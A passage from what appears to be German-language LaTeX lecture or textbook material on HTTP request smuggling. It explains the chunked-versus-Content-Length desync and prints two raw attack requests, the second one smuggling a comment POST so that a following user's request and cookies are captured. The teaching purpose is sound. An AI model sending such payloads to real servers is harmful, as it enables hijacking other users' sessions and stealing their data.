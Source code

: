 Der umgekehrte Fall: Frontend verwendet \textit{Chunked-Encoding}, Backend verwendet \textit{Content-Length} funktioniert ähnlich:

\begin{verbatim}
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
\end{verbatim}

Hier wird allerdings eine Zeile mit 0 zwischen dem eingeschleusten Request und dem dazu-kopierten Folgerequest eines anderen Benutzers eingefügt (da das Chunked-Encoding diese Zeile zum Beenden des Requests benötigt). Dies muss der Angreifer bei der Erstellung seines Angriffscodes berücksichtigen.

Wie kann dieses Verhalten bei einem Angriff ausgenutzt werden? Ein schönes Beispiel wäre eine Webapplikation, bei dem ein Benutzer Kommentare absetzen kann. Das Registrieren eines Benutzers ist auch für einen Angreifer möglich. Hier könnte z.B. folgender Request als Angriff verwendet werden\footnote{Quelle: \url{https://portswigger.net/web-security/request-smuggling/exploiting}}:

\begin{verbatim}
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
\end{verbatim}

